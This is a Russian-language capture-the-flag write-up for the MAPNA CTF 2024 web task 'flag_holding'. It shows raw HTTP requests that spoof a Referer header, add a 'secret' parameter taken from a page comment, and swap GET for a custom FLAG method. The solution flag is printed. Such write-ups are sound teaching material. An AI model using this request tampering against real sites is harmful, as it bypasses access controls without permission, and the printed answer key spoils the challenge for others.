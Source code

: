 # MAPNA_CTF_2024 - web - flag_holding


# Introduction

![](../images/flag_holding.jpg)


# Solve


![](../images/start.jpg)

Сказано, что мы перешли на сайт не с страницы
Измненим наш запрос к сайту: (Добавили **Referer**) | Referer - заголовок, указывающий с какой страницы вы перешли

```
GET / HTTP/1.1
Host: 18.184.219.56:8080
Referer: http://flagland.internal/
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1

```


![](../images/secret.jpg)

Нужно определить секрет. Либо нужно заново добавить какой-то заголовок, либо нужно добавить параметр в URL т.к. у нас **GET** запрос.
Я пробовал добавлять заголовки: **Flag**, **X-Secret** и прочие. Не получилось.

Потом же я добавил параметр в url **secret=1**. Успех есть!

![](../images/find_secret.jpg)

В коде страницы:

```
Incorrect secret. <!-- hint: secret is ____ which is the name of the protocol that both this server and your browser agrees on... -->	

```

Ставим **secret=HTTP**

Получаем:

```
Sorry we don't have "GET" here but we might have other things like "FLAG".
```

Давайте поменяем метод **GET** на **FLAG**

Итоговый запрос:

```
FLAG /?secret=HTTP HTTP/1.1
Host: 18.184.219.56:8080
Referer: http://flagland.internal/
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
```

Получаем флаг : `MAPNA{533m5-l1k3-y0u-kn0w-h77p-1836a2f}` 


# Spoiler

Меняем запрос, параметры и заголовки
